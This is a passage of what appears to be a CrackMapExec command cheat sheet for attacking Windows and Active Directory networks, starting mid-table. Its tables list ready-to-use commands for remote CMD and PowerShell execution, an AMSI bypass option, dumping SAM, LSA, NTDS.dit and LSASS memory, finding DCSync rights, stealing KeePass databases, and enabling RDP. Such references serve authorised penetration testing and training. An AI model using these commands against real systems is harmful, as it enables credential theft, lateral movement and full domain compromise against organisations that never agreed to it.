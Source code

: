 | `cme smb <target> -u <u> -p <p> -M drop-sc -o CLEANUP=True FILENAME=<filename>`                                    | Search and delete the .searchConnector-ms file in the selected shared folder.                                                             |

***

### Command Execution

| **Command**                                                         | **Description**                                                             |
| ------------------------------------------------------------------- | --------------------------------------------------------------------------- |
| `cme smb <target> -u <u> -p <p> -x <command>`                       | Execute the CMD on the target.                                              |
| `cme smb <target> -u <u> -p <p> -X <command>`                       | Execute Powershell on the target.                                           |
| `cme winrm <target> -u <u> -p <p> -x <command>`                     | Execute the CMD on the target using WinRM protocol.                         |
| `cme winrm <target> -u <u> -p <p> -X <command>`                     | Execute the Powershell on the target using WinRM protocol.                  |
| `cme ssh <target> -u <u> -p <p> -x <command>`                       | Executing remote command on the target.                                     |
| `cme ssh <target> -u <u> -p <p> --key-file <KEY_FILE> -x <command>` | Using private keys as the authentication method.                            |
| `--exec-method <EXEC_METHOD>`                                       | Method to execute the command. Ignored if in MSSQL mode (default: wmiexec). |
| `--amsi-bypass <FILE>`                                              | File with a custom AMSI bypass.                                             |

***

### Extracting Secrets

| **Command**                                    | **Description**                                              |
| ---------------------------------------------- | ------------------------------------------------------------ |
| `cme smb <target> -u <u> -p <p> --sam`         | Dump SAM on the target.                                      |
| `cme smb <target> -u <u> -p <p> --lsa`         | Dump LSA on the target.                                      |
| `cme smb <target> -u <u> -p <p> --ntds`        | Dump NTDS.dit on the domain controller using drsuapi method. |
| `cme smb <target> -u <u> -p <p> --ntds vss`    | Dump NTDS.dit on the domain controller using the VSS method. |
| `cme smb <target> -u <u> -p <p> -M lsassy`     | Dump the memory of the LSASS process with lsassy.            |
| `cme smb <target> -u <u> -p <p> -M procdump`   | Dump the memory of the LSASS process with procdump.          |
| `cme smb <target> -u <u> -p <p> -M handlekatz` | Dump the memory of the LSASS process with handlekatz.        |
| `cme smb <target> -u <u> -p <p> -M nanodump`   | Dump the memory of the LSASS process with nanodump.          |

***

### Popular Modules

| **Command**                                                                                                  | **Description**                                              |
| ------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------ |
| `cme [protocol] -M <module_name> --options`                                                                  | Show module options.                                         |
| `cme ldap <target> -u <u> -p <p> -M get-network -o ALL=true`                                                 | Get DNS and IP information.                                  |
| `cme ldap <target> -u <u> -p <p> -M laps`                                                                    | Retrieve all computers an account has access to read.        |
| `cme ldap <target> -u <u> -p <p> -M maq`                                                                     | Get the machine account quota for a user.                    |
| `cme ldap <target> -u <u> -p <p> -M daclread -o TARGET=<username> ACTION=<read>`                             | Read all ACEs of the target account.                         |
| `cme ldap <target> -u <u> -p <p> -M daclread -o TARGET_DN=<DN> ACTION=read RIGHTS=DCSync`                    | Read all objects with DCSync privileges.                     |
| `cme smb <target> -u <u> -p <p> -M keepass_discover`                                                         | Locate the KeePass configuration file in the target machine. |
| `cme smb <target> -u <u> -p <p> -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=<PATH_TO_KEEPASS_CONF>` | Perform a chain attack to obtain the KeePass database.       |
| `cme smb <target> -u <u> -p <p> -M rdp -o ACTION=<enable/disable>`                                           | Enable or Disable RDP.                                       |